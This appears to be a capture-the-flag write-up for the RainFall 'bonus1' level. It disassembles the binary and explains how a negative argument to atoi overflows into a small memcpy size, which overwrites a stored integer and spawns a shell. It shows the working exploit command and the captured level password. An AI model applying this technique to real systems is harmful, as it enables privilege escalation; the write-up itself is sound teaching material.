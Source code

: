 # bonus1

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     and    esp,0xfffffff0
   0x0804842a <+6>:     sub    esp,0x40
   0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]              ; ⎤                                                 
   0x08048430 <+12>:    add    eax,0x4                              ; ⎦ add 4 to argv: get argv[1]                      
   0x08048433 <+15>:    mov    eax,DWORD PTR [eax]                  ; dereference argv[1]: get the string directly      
   0x08048435 <+17>:    mov    DWORD PTR [esp],eax                  ; prepare call to atoi with argv[1]                 
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>                 ; call atoi(argv[1])                                
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax             ; move atoi result to esp+0x3c                      
   0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9             ; compare argv[1] to 9                              
   0x08048446 <+34>:    jle    0x804844f <main+43>                  ; if argv[1] <= 9: jump to <main+43>              ⎤ 
   0x08048448 <+36>:    mov    eax,0x1                              ; return(1)                                       ⎥ 
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>                 ; jump to the end <main+127>                      ⎥ 
   0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]             ; get argv[1] argument (stored at <main+25>)      ⎦ 
   0x08048453 <+47>:    lea    ecx,[eax*4+0x0]                      ; ecx is initialize                                 
   0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]              ; ⎤                                                
   0x0804845d <+57>:    add    eax,0x8                              ; ⎦ get argv[2]                                     
   0x08048460 <+60>:    mov    eax,DWORD PTR [eax]                  ; ⎤                                                 
   0x08048462 <+62>:    mov    edx,eax                              ; ⎥                                                 
   0x08048464 <+64>:    lea    eax,[esp+0x14]                       ; ⎥                                                 
   0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx              ; ⎥                                                 
   0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx              ; ⎥                                                 
   0x08048470 <+76>:    mov    DWORD PTR [esp],eax                  ; ⎥                                                 
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>               ; ⎦ call memcpy(buf, argv[2], ecx)                  
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46      ; compare argv[1] address to 0x574f4c46             
   0x08048480 <+92>:    jne    0x804849e <main+122>                 ; if not equal: jump to <main+122>                ⎤ 
   0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0              ;                                                 ⎥ 
   0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580        ;                                                 ⎥ 
   0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583            ;                                                 ⎥ 
   0x08048499 <+117>:   call   0x8048350 <execl@plt>                ; execl("bin/sh")                                 ⎥ 
   0x0804849e <+122>:   mov    eax,0x0                              ; return(0)                                       ⎦ 
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

## Exploit

`bonus1` take _two_ arguments:

- The first is an _signed_ `int` because of `atoi`.
- The second is a string which is copied by `memcpy` to a buffer on the stack.

We are going to exploit the fact that `memcpy` use `size_t` (an unsigned integer) and the first argument is a signed
integer: it is an _integer overflow_.

We need to find a `int` that is less than 9 (`<main+34>`). Then, this `int` is used for `memcpy` size but it is
multiplied by 4 before it uses it. Finally the same `int` returned by `atoi` is compared to `0x574f4c46`, which is a big
positive value... It seems to be difficult to find a value that is less than 9 and equal to 1464814662 (`0x574f4c46`).

That is without counting on integer overflow. This integer overflow will lead us to a buffer overflow by `memcpy`
because the `int` value returned by `atoi` is stored next to the buffer. So we are going to crush its value.

In `Resources`, we have a small C program to visualize an number as signed, unsigned and hexadecimal values.

Let's find how big is the buffer for `memcpy`:

```gdb
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
```

Here, `atoi` return is stored at `esp+0x3c`.

```gdb
   0x08048464 <+64>:    lea    eax,[esp+0x14]
```

Before `memcpy` call, we notice that the buffer begins at `esp+0x3c`. Thus the total size of the buffer seems to be
`0x3c - 0x14` that is to say `40`. Consequently, the `int` value we are targetting is at 41th, 42th, 43th and 44th
bytes. So we know that the second argument is going to be something like `python -c 'print "A" * 40 +
"\x46\x4c\x4f\x57"`.

Let's find the integer trick for the first argument. We take the minimal signed integer and add 11 (because the buffer
is 4 times 11). Let's simulate how it is going to work inside the function:

```python
>>> -2**31 + 11         ; Take the INT_MIN and add (buffer_size / 4)                                                    
-2147483637                                                                                                             
>>> hex(2147483659 * 4) ; This value in hexadecimal is multiplied by 4                                                  
'0x20000002c'           ; It gives us 0x20000002c which corresponds to 0x0000002c in unsigned int                       
>>> 0x2c                                                                                                                
44                      ; Which is equal to 44                                                                          
```

Thus the `size_t` value in `memcpy` is going to be `0x2c` (`44`). It overrides previous the first argument on the stack
by `0x574f4c46`. Win!

```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
